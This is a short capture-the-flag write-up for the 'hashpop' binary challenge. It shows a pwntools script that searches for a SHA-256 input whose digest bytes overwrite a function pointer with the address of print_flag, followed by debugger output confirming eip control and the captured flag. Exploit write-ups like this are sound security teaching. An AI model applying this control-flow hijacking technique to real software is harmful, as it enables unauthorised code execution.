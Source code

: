 ```python
def generate_sha256(s):
    elf = ELF('./hashpop')
    offsets = [ elf.symbols['print_flag'], elf.symbols['print_flag_json'], elf.symbols['print_flag_xml']]

    while True:
        h = hashlib.sha256()
        h.update(str(s))
        c = u32((h.digest())[0x10:0x10+4])
        if c in offsets:
            log.info('found hash for control eip: %s(%s)' % (str(s), h.hexdigest()))
            return 0
        s = str(h.hexdigest())
```
```
[*] found hash for control eip: fb18592c3edca00d1c7a61124166dfe7ed2d1a840b570c55efb7a897ea25870f(2af06d3ae24ae97a0067182f4a50b136d0ab0408b5214820909021e77aabb5ee)
```

This input overwrite function pointer area and call print_flag_json!

```
pwndbg> x/20wx 0x85bd160
0x85bd160:	0x085bd196	0x00000040	0x085bd1dc	0x0804c0d6
0x85bd170:	0xf7f0fe00	0x3a6df02a	0x7ae94ae2	0x2f186700
0x85bd180:	0x36b1504a	0x0804abd0	0x204821b5	0xe7219090
0x85bd190:	0xeeb5ab7a	0x62660074	0x39353831	0x65336332

pwndbg> i r eip
eip            0x804abd0	0x804abd0 <print_flag_json>
```

Ok, Here is [solution script](./solve.py) using requests module.

```
$ python solve.py
{'Via': '1.1 google', 'Content-Encoding': 'gzip', 'Transfer-Encoding': 'chunked', 'Vary': 'Accept-Encoding', 'Server': 'Apache/2.4.38 (Debian)', 'Date': 'Thu, 27 Feb 2020 12:02:10 GMT', 'Alt-Svc': 'clear', 'Content-Type': 'text/plain'}
Content-type: application/json

{"flag": "CTF{it_couldve_been_64_bit!}
"}
```
**CTF{it_couldve_been_64_bit!}**